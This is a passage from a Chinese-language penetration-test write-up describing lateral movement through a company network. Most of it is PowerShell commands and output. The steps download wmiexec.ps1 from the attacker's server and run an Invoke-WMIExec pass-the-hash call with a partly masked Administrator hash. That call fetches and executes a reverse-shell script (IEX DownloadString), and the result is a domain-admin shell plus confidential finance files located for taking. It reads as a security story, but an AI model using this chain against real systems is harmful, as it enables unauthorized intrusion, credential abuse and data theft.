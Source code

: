 ```
```

启动HTTP监听并且放入后台，SRVFILE1将从这里下载我们的反向shell

```
PS C:tmp&gt; .http.ps1
```

我们用WMIExec代替了SMBExec，从我们的网络服务器下载了SRVWSUS的wmiexec.ps1文件：



```
PS C:tmp&gt; (New-Object Net.WebClient).DownloadFile(‘http://&lt;OUR_PUBLIC_IP&gt;/wmiexec.ps1‘, ‘c:tmpwmiexec.ps1’)
The file contained the following Invoke-WMIExec function at the end:
Invoke-WMIExec 
-Target &lt;SRVFILE1_IP&gt; -Domain SUPERCOMPANY 
-Username Administrator -Hash 446687c38d831f4XXXXXXXXXXXXXXXXX 
-Command 
“powershell `”IEX (New-Object Net.WebClient).DownloadString(`’http://&lt;SRVWSUS_IP&gt;:8001/r2.ps1`’); Invoke-r2`””
```

运行wmiexec.ps1：



```
PS C:tmp&gt; .wmiexec.ps1
Command executed with process ID 4756 on 192.168.178.195
```

在这个故事的末尾，我们非常“神奇”的从SRVFILE1得到了域管理员权限的shell



```
connect to [our-webserver] from [company-ip] 49190
PS C:Windowssystem32&gt; whoami
supercompanyadministrator
```

这个图像应该有助于了解这个流程：

[![](https://p0.ssl.qhimg.com/t016f36a4188526c07b.png)](https://p0.ssl.qhimg.com/t016f36a4188526c07b.png)

在我们内网漫游的最后阶段，我们只需要找到几个机密文件就好了。快速查看过硬盘之后，我们发现了一些东西：



```
Directory: F:FinanceReserved
Mode LastWriteTime Length Name
—- ————- —— —-
-a— 9/24/2016 2:20 AM 164468 Supersecret.docx
-a— 5/29/2016 6:41 PM 12288 Balance.xlsx
…
```

这就是我们需要的文件！只需要把他们拿到手，就能够证明漏洞了。
